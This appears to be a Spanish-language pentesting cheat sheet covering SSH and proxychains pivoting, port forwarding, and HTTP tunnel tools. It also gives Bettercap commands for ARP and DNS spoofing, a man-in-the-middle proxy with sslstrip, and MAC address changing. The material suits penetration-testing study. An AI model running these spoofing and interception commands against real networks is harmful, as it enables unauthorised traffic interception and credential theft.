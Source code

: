 ```yaml
---
layout: article
title: Pentesting - Network
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Pivoting</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Proxychains</div>
</div>

* Crear túnel SSH Dinámico
~~~
ssh -D <puerto local> <user>@<ip>
~~~
Configurar proxychains
Modificar el puerto '9050' (por defecto) en la última línea por otro que deseemos, por ejemplo, '9090'
~~~
vim /etc/proxychains.conf
~~~
~~~
[ProxyList]
socks4 127.0.0.1 <puerto local>
~~~

* Modificar el timeout para ganar velocidad
~~~
tcp_read_time_out 600
tcp_connect_time_out 800
~~~

* Si se quiere hacer un doble pivotaje
~~~
ssh -D <puerto local 1> <user>@<ip>
proxychains ssh -D <puerto local 2> <user>@<ip>
~~~
Configurara proxychains para el <puerto local 2>
~~~
vim /etc/proxychains.conf
~~~
~~~
[ProxyList]
socks4 127.0.0.1 <puerto local 2>
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Port Forwarding</div>
</div>

~~~
ssh -R <puerto local>:localhost:<puerto local> <user>@<ip>
~~~
~~~
ssh -L <puerto local>:localhost:<puerto local> <user>@<ip>
~~~

**SSH Pivoting**
~~~
$ ssh <user>@<ip> -L <puerto local>:<host víctima>:<puerto víctima> -N
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Túneles HTTP</div>
</div>

**ReGeorg**

[https://github.com/sensepost/reGeorg.git](https://github.com/sensepost/reGeorg.git)

**SSF**

[https://github.com/securesocketfunneling/ssf.git](https://github.com/securesocketfunneling/ssf.git)

<h2>DNS Spoofing</h2>

~~~bash
echo 1 > /proc/sys/net/ipv4/ip_forward # Router mode
~~~

Ver los equipos de la red, seleccionar el host para realizar el ARP Spoofing y ejecutarlo
~~~
> net.show
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
~~~

Establecer el dominio, tanto local como externo (con dns.spoof.all)
~~~
> set dns.spoof.domains apache.org
> set dns.spoof.all true
> dns.spoof on
~~~

Crear un servidor local con http.server (u otros métodos)
~~~
> set http.server.path /var/www/html
> http.server on
~~~

<h2>MAC</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Cambiar MAC</div>
</div>

~~~bash
sudo macchanger -a wlo1
~~~

~~~bash
sudo airmon-ng start wlo1
airodump-ng –c <canal>–bssid <MAC del router objetivo>–i wlo1mon
sudo airmon-ng stop wlo1mon
sudo ifconfig wlo1 down
sudo macchanger -m <Nueva MAC> wlo1
sudo ifconfig wlo1 up
~~~

<h2>ARP Spoofing</h2>

**Bettercap**

~~~bash
echo 1 > /proc/sys/net/ipv4/ip_forward # Router mode
~~~

~~~
> net.show
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
~~~

<h2>Proxy MiTM</h2>

**Bettercap**

~~~
> set net.sniff.verbose false
> net.sniff on
> set http.proxy.sslstrip true
> http.proxy on
~~~



<h2>Recursos adicionales</h2>

[https://www.hackplayers.com/2018/05/taller-de-pivoting-tuneles-ssh.html](https://www.hackplayers.com/2018/05/taller-de-pivoting-tuneles-ssh.html)

[https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)

[https://notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://notsosecure.com/pwning-with-responder-a-pentesters-guide/)